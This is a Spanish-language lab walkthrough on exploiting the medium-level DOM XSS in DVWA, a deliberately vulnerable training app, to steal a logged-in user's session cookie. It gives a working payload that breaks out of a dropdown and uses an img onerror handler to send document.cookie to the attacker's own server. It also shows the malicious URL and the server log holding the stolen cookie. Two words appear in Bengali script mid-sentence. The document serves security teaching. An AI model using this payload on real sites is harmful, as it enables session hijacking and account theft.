 # Explotación de Vulnerabilidad XSS (Cross-Site Scripting) - Nivel Medio

## Objetivo

Robar la cookie de un usuario conectado explotando una vulnerabilidad Cross-Site Scripting (XSS) de nivel medio.

## Herramientas Necesarias

* Un entorno web vulnerable (por ejemplo, DVWA - Damn Vulnerable Web Application).
* Kali Linux (o cualquier sistema con Python instalado).

## Pasos para la Explotación

1.  **Iniciar un servidor web temporal en Kali Linux:**
    Abre tu terminal en Kali Linux y ejecuta el siguiente comando para iniciar un servidor web simple en el puerto 9999. Este servidor escuchará las peticiones que envíe la página vulnerable.

    ```bash
    sudo python3 -m http.server 9999
    ```

2.  **Analizar las protecciones de nivel Medio:**
    A diferencia del nivel Bajo, el nivel Medio bloquea la cadena `<script`. Esto significa que los payloads directos que utilizaban la etiqueta `<script>` ya no funcionarán.

3.  **Construir un payload XSS sin la etiqueta `<script>`:**
    Para বাইপাসar esta restricción, utilizaremos la etiqueta `<img>` con un evento `onerror` para ejecutar código JavaScript.

4.  **Payload final para robar la cookie:**
    Dado que la entrada se inyecta en la primera opción de un desplegable (`<select>`), necesitamos "romper" la estructura HTML del dropdown para que nuestra etiqueta `<img>` se renderice correctamente y el código JavaScript se ejecute. El siguiente payload logra esto:

    ```html
    </option></select><img id='pic' src=x onerror="var i = document.getElementById('pic'); i.setAttribute('src','http://[tu_IP_de_Kali]:9999/' + document.cookie); i.parentNode.removeChild(i); return false;")>
    ```

    **Desglose del payload:**

    * `</option></select>`: Cierra la etiqueta `<option>` actual y la etiqueta `<select>` del desplegable, sacándonos de su estructura.
    * `<img id='pic'`: Crea una etiqueta `<img>` con el ID `pic`.
    * `src=x`: Establece un valor inválido para el atributo `src`. Cualquier valor no válido para una imagen provocará un error.
    * `onerror="..."`: Define el código JavaScript que se ejecutará cuando ocurra un error al cargar la imagen (debido al `src` inválido).
        * `var i = document.getElementById('pic');`: Obtiene la referencia al elemento `<img>` por su ID.
        * `i.setAttribute('src','http://[tu_IP_de_Kali]:9999/' + document.cookie);`: Establece el atributo `src` de la imagen a una URL en tu servidor web temporal (reemplaza `[tu_IP_de_Kali]` con la IP de tu máquina Kali) seguido de la cookie del usuario (`document.cookie`). Esto hará que el navegador de la víctima intente cargar una "imagen" desde tu servidor, enviando la cookie en la petición GET.
        * `i.parentNode.removeChild(i);`: Elimina la etiqueta `<img>` del DOM para evitar que el evento `onerror` se siga disparando repetidamente, lo que podría generar múltiples peticiones a tu servidor.
        * `return false;`: Evita que el error de la imagen se propague.
    * `>`: Cierra la etiqueta `<img>`.

5.  **Construir la URL maliciosa:**
    Combina la URL de la página vulnerable con el payload inyectado en el parámetro `default`:

    ```
    http://dvwa/dvwa/vulnerabilities/xss_d/?default=English</option></select><img id='pic' src=x onerror="var i = document.getElementById('pic'); i.setAttribute('src','http://[tu_IP_de_Kali]:9999/' + document.cookie); i.parentNode.removeChild(i); return false;")>
    ```

    **¡Importante!** Reemplaza `[tu_IP_de_Kali]` con la dirección IP de tu máquina Kali.

6.  **Acceder a la URL maliciosa:**
    Pega esta URL en el navegador de la víctima (o en tu propio navegador si estás probando la vulnerabilidad).

7.  **Verificar el servidor web temporal:**
    Si la explotación es exitosa, tu servidor web temporal en Kali Linux debería recibir una petición GET. La ruta de esta petición contendrá la cookie del usuario conectado. Deberías ver algo similar a esto en los logs de tu servidor:

    ```
    192.168.x.x - - [DD/Mon/YYYY HH:MM:SS] "GET /PHPSESSID=alguna_sesion;security=medium HTTP/1.1" 200 -
    ```

    La parte después de `/` es la cookie del usuario.

## ¡Felicidades!

Has explotado con éxito la vulnerabilidad XSS de nivel Medio para robar la cookie de un usuario utilizando un payload que বাইপাসa la restricción de la etiqueta `<script>`.

**Recuerda:** Esta demostración es con fines educativos en un entorno controlado. En escenarios reales, las protecciones pueden ser más robustas. El uso de esta información para actividades maliciosas es ilegal y no ético.